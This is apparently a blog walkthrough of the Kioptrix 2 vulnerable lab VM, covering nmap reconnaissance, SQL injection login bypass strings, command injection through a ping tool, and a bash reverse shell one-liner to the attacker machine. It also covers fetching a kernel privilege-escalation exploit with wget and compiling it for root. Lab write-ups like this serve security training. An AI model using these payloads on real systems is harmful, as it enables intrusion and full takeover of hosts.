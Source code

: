 
Kioptrix 2 is the second web application hacking challenge created by Loneferret. If you need help setting up your VM see some of my troubleshooting tips in [my Kioptrix 1 Walkthrough]().

### Step 1: Recon

After you get both your target VM (Kioptrix2) and your attacker VM (Kali/Parrot/etc.) spun up, the first step is going to be to identify your IP addresses. Start by running an **ifconfig** on your Kali Machine.
![](/images/kioptrix2/kioptrix2-1.png)


Next let's use **nmap** to run a ping sweep on the local network. This is a quieter scan that the typical 1000 port nmap scan and uses ICMP echo requests to identify live hosts on the network. We're typically going to use the first three octets of the IP address we discovered in the step above followed by 0/24. So for example:
![](/images/kioptrix2/kioptrix2-2.png)

We can see a few hosts pop up on this scan. Generally you can eliminate the highest and lowest IPs since they're usually virtualized network appliances. The other two IPs end in .133 (which we know is the attacking machine) and .128 (which is most likely our target). To test this theory, plug the target IP address into a browser on your attacker machine. You should see a simple login page.
![](/images/kioptrix2/kioptrix2-4.png)

Great! Now that we have identified our attacker and target IP addresses, lets start enumerating the open ports and running services on the target VM. I like to start with an nmap "Syn Scan" (-sS) which sends syn requests (Step one in the TCP three way handshake) to identify open ports.
![](/images/kioptrix2/kioptrix2-3.png)

Another helpful nmap scan to run is the "Version scan" (-sV), which will grab banners of running services to find out their versions. It's also has the benefit of returning very clean looking results, cleaner than the intensive "advanced scan" (-A).

![](/images/kioptrix2/kioptrix2-12.png)


### Step 2: Poke the Bear

Now that we know a little bit more about our target, let's go back to inspecting the web page with the login form.
We know that the target has a MySQL port open. Why don't we try some classic SQL injection authentication bypasses?

My two favorite cheat sheets for SQL Authentication bypass are: 
- [Pentest Lab Blog](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
- [Netsparker Blog](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

If you've never tried this before, take a minute to look over the two links above and try a few methods yourself.

There are several methods that will work here:
`admin' 1=1 -- \`

`admin' 1=1 #`

`admin' #`


### Step 3: Get in the Bear's House

Now that we've bypassed the login screen we're at a page with a tool that accepts user input and runs a ping scan.

![](/images/Kioptrix2/kiotrix2-5.png)


The concept behind command injection is similar to sqlinjection. Instead of passing some input and using a comment character to stop the rest of sql query, we're going to try some special characters used to string together commands.
; will allow you to escape the underlying program and pass commands
You can even string together multiple multiple commands with &&



Let's see if we can get a bash reverse shell.

For a great reverse shell cheat sheet check out the [Pentest Monkey Blog](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).
Start by setting up a netcat listener on your attacker machine. 
` nc -nvlp 4444`

And then pass the reverse shell script into the ping tool.

`; bash -i >& /dev/tcp/192.168.65.133/4444 0>&1`

![](/images/kioptrix2/kioptrix2-6.png)
Boom! We've got our low priv shell.

### Step 4: Own the Bear
Next we begin enumerating more about the machine to plan our privesc approach.
I usually start by gathering information about the OS version, kernel version, and users.
![](/images/kioptrix2/kioptrix2-7.png)

CentOS 4.5 final has the following exploit:
[https://www.exploit-db.com/exploits/9542/]

Since I have my vulnerable VM set up in Host Only mode to segregate it from the internet, I spool up a simple python web sever on my attacker machine with the exploit file in it.

![](/images/kioptrix2/kioptrix2-8.png)
I then use the wget command on my target machine to download the exploit from my attacker.
![](/images/kioptrix2/kioptrix2-9.png)

There are no special insructions in this exploit for compiling the code, so we use the most basic gcc compile.
`**gcc kioptrix2.c -o kioptrix2**`

Then all that's left to do is to run the exploit on the target
![](/images/kioptrix2/kioptrix2-10.png)

Root shell!! 

Thanks for reading. Check back next week for a writeup of Kioptrix 3.







